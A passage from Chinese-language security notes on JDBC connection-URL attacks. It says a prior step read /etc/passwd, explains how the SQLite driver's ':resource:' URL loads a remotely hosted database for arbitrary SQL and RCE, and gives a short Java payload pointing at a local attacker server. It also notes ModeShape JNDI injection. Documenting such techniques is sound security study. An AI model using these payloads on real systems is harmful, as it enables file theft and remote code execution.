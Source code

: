 ![image-20221208130836282](images/56.png)

拿到了/etc/passwd的数据

# 记录下不同数据库通过JDBC的攻击

## SQLite

`org.sqlite.SQLiteConnection#open`使用 SQLite 库打开与数据库的连接时调用方法。

该方法提供了一个特性：如果连接URL以 开头，则调用`:resource:`该方法从URL连接中获取数据库内容。

![image-20221208183910906](images/57.png)

extractResource方法

![image-20221208184018712](images/58.png)

这个攻击主要是通过sqlite远程加载sql命令达到执行任意sql命令的效果，然后通过加载恶意的dll或者so文件达到RCE的效果

依赖

```
<dependency>
    <groupId>org.xerial</groupId>
    <artifactId>sqlite-jdbc</artifactId>
    <version>3.35.0</version>
</dependency>
```

这里因为去搭建各种数据库太麻烦了，也主要只是记录一些payload，所以就写一个过程，没有去复现了

**利用**

```
Class.forName("org.sqlite.JDBC");
Connection connection = DriverManager.getConnection("jdbc:sqlite::resource:http://127.0.0.1:8888/poc.db");
```

参考https://su18.org/post/jdbc-connection-url-attack/#sqlite

## ModeShape

[ModeShape](https://modeshape.jboss.org/)是 JCR（Java 内容存储库）的实现，使用 JCR API 从其他系统访问数据，例如文件系统、Subversion、JDBC 元数据……

存储库源可以像`jdbc:jcr:jndi:jcr:?repositoryName=repository`.

这个数据库的攻击方式主要就是JNDI注入了

```
<dependency>
    <groupId>org.modeshape</groupId>
    <artifactId>modeshape-jdbc</artifactId>
    <version>5.0.0.Final</version>
</dependency>
```

